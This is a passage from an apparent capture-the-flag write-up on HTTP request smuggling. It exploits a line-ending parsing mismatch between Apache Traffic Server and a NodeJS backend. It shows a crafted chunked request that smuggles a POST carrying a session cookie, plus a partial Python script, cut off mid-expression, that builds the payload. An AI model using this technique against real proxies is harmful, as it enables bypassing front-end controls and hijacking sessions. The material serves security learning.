 ```bash 

0

```

*If you're not familiar with how [Chunked Transfer Encoding](https://en.wikipedia.org/wiki/Chunked_transfer_encoding) works, I do suggest you read up about it a little before carrying on with the rest of this writeup*

Let's try to understand what is happening. In the example above, `; xx` is treated as the [chunk extension](https://datatracker.ietf.org/doc/html/rfc7230#section-4.1.1) and `2` is intrepreted as the chunk size.

Now, because ATS does not treat CRLF as the line ending but instead it treats LF as the line ending, we can modify the chunked extension to a payload like `\nxx` and as a result, ATS would see the following request:

```bash
GET /login HTTP/1.1
Host: localhost
Transfer-Encoding: chunked

2 \nxx
f2
0

POST /do-report HTTP/1.1
Host: app:8000
Content-Type: application/json
Content-Length: 37
Cookie: connect.sid=s%3AWJQuXDbK68vu2WoFyeYd_4BF7K83hYWC.M2PqksbXo5wLOai3PcCJSoKucZxS6JeJzsu3b56YPt8

{"url":"http://localhost:8000/token"}

0

``` 

From ATS' perspective, it only sees a single request to `GET /login` and because of the first `0\r\n` (AKA the final byte indicator for chunked transfer encoding) ATS does not see beyond that.

On the other hand, NodeJS actually sees both requests, the first request to `GET /login` as well as the second smuggled request, to `POST /do-report`. 

`2 \nxx` actually gets ignored by NodeJS due to the lack of `\r` character and because of that, it ends up treating `f2` as the chunk size. We can then do some calculations to correctly pass in the correct chunk size to be interpreted by the NodeJS server.

Finally, here's a python script that I used to generate the final payload to perform the request smuggling.

```python
import sys

body = b'{"url":"http://localhost:8000/token"}'
cookie = b"connect.sid=s%3AWJQuXDbK68vu2WoFyeYd_4BF7K83hYWC.M2PqksbXo5wLOai3PcCJSoKucZxS6JeJzsu3b56YPt8"

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: app:8000\r\n" +
    b"Content-Type: application/json\r\n" +
    b"Content-Length: " + str(len(body)).encode() + b"\r\n" +
    b"Cookie: " + cookie + b"\r\n" +
    b"\r\n" +  
    body + b"\r\n"
    b"\r\n" + 
```